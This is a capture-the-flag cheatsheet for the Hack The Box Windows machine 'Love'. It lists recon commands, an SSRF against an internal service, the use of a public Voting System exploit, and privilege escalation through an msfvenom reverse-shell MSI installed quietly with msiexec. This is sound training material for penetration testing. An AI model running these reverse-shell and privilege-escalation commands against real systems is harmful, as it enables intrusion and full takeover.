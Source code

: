 # HTB: Love — Command Cheatsheet

## 📌 Box Info
- **Name:** Love
- **IP:** 10.10.10.245
- **OS:** Windows
- **Difficulty:** Easy

---

## 🔍 Recon
```bash
nmap -sV -sC -oA scan/result $IP
```
- Found services:
  - [HTTP](HTTP) (80, 5000)
  - HTTPS
  - [SMB](SMB)
  - [MySQL](MySQL.md)

Update `/etc/hosts`:
```bash
echo "$IP love.htb staging.love.htb" | sudo tee -a /etc/hosts
```

---

## 🕵️‍ HTTP Enumeration
```bash
gobuster dir --url "http://love.htb/" -w /usr/share/dirb/wordlists/small.txt -x php,txt,config -o http.txt
```
- Result: Nothing interesting found

Search for vulnerable software:
```bash
searchsploit "Voting System"
```
- Found exploit for PHP Voting System (needs credentials)

---

## 📉 Port 5000
- Access denied (403)

---

## 📃 HTTPS Certificate
- View for domain/subdomain info

---

## 📢 staging.love.htb (HTTP)
- Has a URL input field
- Test for SSRF:

```http
GET / HTTP/1.1
Host: staging.love.htb
...
Input URL: http://127.0.0.1:5000
```
- ✅ SSRF Works

---

## 🔨 Exploitation
Copy exploit:
```bash
searchsploit -m 49445.py
```
Edit and run exploit to leverage SSRF and gain access.

---

## 🥵 Privilege Escalation
- Upload **WinPEAS** for local enumeration.
- Detected: `msiexec` install privileges ✅

Generate reverse shell payload:
```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=tun0 lport=9002 -f msi -o exploit2.msi
```

Upload to target, then execute:
```bash
msiexec /quiet /qn /i exploit2.msi
```

---

## ✅ Root Access
- Reverse shell received with NT AUTHORITY privileges

---

## 📑 Summary
- Used SSRF on subdomain to reach an internal service
- Exploited a vulnerable Voting System
- Privilege escalation via MSI installation permissions